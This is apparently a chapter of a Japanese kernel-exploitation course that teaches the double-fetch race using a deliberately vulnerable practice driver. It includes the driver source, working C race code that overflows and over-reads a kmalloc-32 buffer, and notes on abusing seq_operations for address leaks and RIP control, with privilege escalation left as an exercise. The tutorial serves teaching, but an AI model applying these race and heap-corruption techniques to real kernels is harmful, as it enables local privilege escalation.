

LK03(Dexter)ではDouble Fetchと呼ばれる脆弱性について学びます。まず[練習問題LK03](distfiles/LK03.tar.gz)のファイルをダウンロードしてください。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## QEMUの起動オプション
LK03ではSMEP,KASLR,KPTIが有効で、SMAPが無効です。また、今回扱う脆弱性は競合に関するバグなので、マルチコアで動作させている点に注意してください。[^1]
権限昇格を簡単にするためにSMAPを無効化しているだけで、脆弱性自体はSMAPが有効でも発火します。
```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu kvm64,+smep \
    -smp 2 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user
```

## ソースコードの解析
まずはLK03のソースコードを読んでみましょう。ソースコードは`src/dexter.c`に書かれています。
このプログラムは最大0x20バイトのデータを格納できるカーネルモジュールです。`ioctl`で操作でき、データを読み出す機能と書き込む機能が提供されています。
```c
#define CMD_GET 0xdec50001
#define CMD_SET 0xdec50002
...
  switch (cmd) {
    case CMD_GET: return copy_data_to_user(filp, (void*)arg);
    case CMD_SET: return copy_data_from_user(filp, (void*)arg);
    default: return -EINVAL;
  }
```
デバイスが`open`されると`private_data`に0x20バイトの領域が`kzalloc`で確保されます。この領域はデバイスを`close`すると解放されます。
```c
static int module_open(struct inode *inode, struct file *filp) {
  filp->private_data = kzalloc(BUFFER_SIZE, GFP_KERNEL);
  if (!filp->private_data) return -ENOMEM;
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  kfree(filp->private_data);
  return 0;
}
```
`ioctl`が呼ばれると、`verify_request`でユーザーから渡されるデータを検証します。`verify_request`ではユーザーから受け取ったデータのポインタが非NULLで、かつサイズが0x20を超えていないことを確認しています。
```c
int verify_request(void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -1;
  if (!req.ptr || req.len > BUFFER_SIZE)
    return -1;
  return 0;
}

...

  if (verify_request((void*)arg))
    return -EINVAL;
```
次にそれぞれ`CMD_GET`, `CMD_SET`では`private_data`からユーザーにデータをコピーしたり、ユーザーから`private_data`にデータをコピーしたりできます。
```c
long copy_data_to_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_to_user(req.ptr, filp->private_data, req.len))
    return -EINVAL;
  return 0;
}

long copy_data_from_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_from_user(filp->private_data, req.ptr, req.len))
    return -EINVAL;
  return 0;
}
```
ユーザーからデータをコピーする前に`verify_request`でサイズを確認しているため、Heap Buffer Overflowは一見存在しないように思えます。

## Double Fetch
**Double Fetch**は、カーネル空間で発生するデータ競合の一種に付けられた名前です。名前の通り、カーネル側で同じデータを2回fetchする（読み込む）ことで発生する競合を指します。
次のように、カーネル空間がユーザー空間から同じデータを2回読むとき、その間に別のスレッドがデータを書き換える可能性があります。

<center>
  
</center>

このとき1回目と2回目のfetchでデータ内容が異なるため、整合性が取れなくなります。このようなデータ競合をDouble Fetchと呼びます。[LK01で扱った競合](../LK01/race_condition.html)と大きく違うのは、このバグはカーネル側でmutexを取っても対処できないという点です。

今回のドライバでは、`verify_request`と`copy_data_to_user`/`copy_data_from_user`でユーザーからのリクエストデータをfetchしています。つまり、`verify_request`では正しいサイズを渡し、そこから`copy_data_to_user`あるいは`copy_data_from_user`が実行されるまでの間にサイズを不正な値に書き換えれば、Heap Buffer Oveflowが起こせます。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    ユーザー空間のデータを複数回扱うときは、最初にカーネル空間にコピーしたものを使わないとダメなんだね。
  </p>
</div>

## 脆弱性の発火
まずは正しい使い方をしてみましょう。次のようにドライバにデータを保存できます。
```c
int set(char *buf, size_t len) {
  request_t req = { .ptr=buf, .len=len };
  return ioctl(fd, CMD_SET, &req);
}
int get(char *buf, size_t len) {
  request_t req = { .ptr=buf, .len=len };
  return ioctl(fd, CMD_GET, &req);
}

int main() {
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");

  char buf[0x20];
  set("Hello, World!", 13);
  get(buf, 13);
  printf("%s\n", buf);

  close(fd);
  return 0;
}
```

次にDouble Fetchの挙動を確認しましょう。まずは適当なコードを書いて、脆弱性が発火することを確認します。ここではセットしていないデータが読み込まれるまで競合を試みるコードを書いています。
```c
int fd;
request_t req;

int set(char *buf, size_t len) {
  req.ptr = buf;
  req.len = len;
  return ioctl(fd, CMD_SET, &req);
}
int get(char *buf, size_t len) {
  req.ptr = buf;
  req.len = len;
  return ioctl(fd, CMD_GET, &req);
}

int race_win = 0;

void *race(void *arg) {
  while (!race_win) {
    req.len = 0x100;
    usleep(1);
  }
  return NULL;
}

int main() {
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");

  char buf[0x100] = {}, zero[0x100] = {};
  pthread_t th;
  pthread_create(&th, NULL, race, NULL);
  while (!race_win) {
    get(buf, 0x20);
    if (memcmp(buf, zero, 0x100) != 0) {
      race_win = 1;
      break;
    }
  }
  pthread_join(th, NULL);

  for (int i = 0; i < 0x100; i += 8) {
    printf("%02x: 0x%016lx\n", i, *(unsigned long*)&buf[i]);
  }

  close(fd);
  return 0;
}
```
メインスレッドで`CMD_GET`を正しいサイズで呼び、サブスレッドでユーザー空間にあるサイズ情報を不正な値に書き換えます。`verify_request`が呼ばれてから`copy_data_to_user`が呼ばれるまでの間にサブスレッドがサイズ情報を書き換えると、不正なサイズでデータがコピーされるため、Heap Buffer Overflowが起きます。

`CMD_GET`に関しては実際にバッファサイズを超えてデータが読めたかを確認すれば良いですが、`CMD_SET`でバッファオーバーフローが成功したかはどのように確認すれば良いでしょうか。方法はいくつかあると思いますが、今回は定数回のループで範囲外書き込み（オーバーフロー）を試み、終了後にオーバーフローが成功したかを範囲外読み込みで確認することにしました。
```c
void overread(char *buf, size_t len) {
  char *zero = (char*)malloc(len);
  pthread_t th;
  pthread_create(&th, NULL, race, (void*)len);

  memset(buf, 0, len);
  memset(zero, 0, len);
  while (!race_win) {
    get(buf, 0x20);
    if (memcmp(buf, zero, len) != 0) {
      race_win = 1;
      break;
    }
  }

  pthread_join(th, NULL);
  race_win = 0;
  free(zero);
}

void overwrite(char *buf, size_t len) {
  pthread_t th;
  char *tmp = (char*)malloc(len);

  while (1) {
    // 定数回でraceを試みる
    pthread_create(&th, NULL, race, (void*)len);
    for (int i = 0; i < 0x10000; i++) set(buf, 0x20);
    race_win = 1;
    pthread_join(th, NULL);
    race_win = 0;
    // ヒープオーバーフローが成功していなければ再試行
    overread(tmp, len);
    if (memcmp(tmp, buf, len) == 0) break;
  }

  free(tmp);
}
```
これでヒープオーバーフローを試みたところ、著者の環境では偶然後ろに壊してはいけないデータがあったようで、次のようにカーネルパニックを起こしました。

<center>
  
</center>

## seq\_operations
今回破壊できる領域はkmalloc-32なので、同じサイズ帯で攻撃に使えるオブジェクトを探す必要があります。kmalloc-32では、[`seq_operations`構造体](https://elixir.bootlin.com/linux/v5.17.1/source/include/linux/seq_file.h#L32)が便利です。
```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```
`seq_operations`はsysfs, debugfs, procfs等の特殊なファイルをユーザー空間から読むときにカーネル側で呼ばれるハンドラを記載する構造体です。したがって、`/proc/self/stat`等の特殊ファイルを開くことで確保できます。
関数ポインタなのでカーネルのアドレスがリークできる上、例えば`read`を呼ぶと`seq_operations`の`start`が呼ばれるため、RIPの制御も可能です。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    kmalloc-32が使われる構造体は他にもたくさんあるよ。<br>
    詳しくは例題で見てみよう。
  </p>
</div>

## 権限昇格
今回はSMAPが無効なのでユーザー空間にStack Pivotできます。各自ROP chainを書いて権限昇格してみてください。

<center>
  
</center>

[^1]: シングルコアで競合を起こす方法も後の章で登場します。

---

<div class="column" title="例題">
  SMAPを有効にしても動くようにexploitを修正してください。
</div>
